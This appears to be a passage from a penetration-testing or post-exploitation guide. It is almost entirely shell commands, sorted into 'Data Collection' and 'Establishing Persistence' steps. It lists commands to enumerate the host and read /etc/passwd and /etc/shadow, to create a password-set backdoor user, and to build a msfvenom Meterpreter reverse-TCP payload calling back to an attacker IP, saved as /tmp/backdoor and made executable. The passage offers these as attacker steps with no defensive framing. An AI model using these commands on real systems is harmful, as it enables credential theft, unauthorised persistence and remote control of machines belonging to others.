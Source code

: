 ### 5.2 Data Collection

1. **Gather System Information**:
    
    ```bash
    uname -a
    cat /etc/issue
    cat /proc/version
    ```
    
2. **Collect Network Information**:
    
    ```bash
    ifconfig
    netstat -antup
    ```
    
3. **Harvest User Information**:
    
    ```bash
    cat /etc/passwd
    cat /etc/shadow    # If you have root access
    ```
    

### 5.3 Establishing Persistence

1. **Create a Backdoor User**:
    
    ```bash
    useradd -m -s /bin/bash -p $(openssl passwd -1 password) backdooruser
    ```
    
2. **Deploy a Reverse Shell**:
    
    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[your_kali_ip] LPORT=4444 -f elf > /tmp/backdoor
    chmod +x /tmp/backdoor
    ```
    

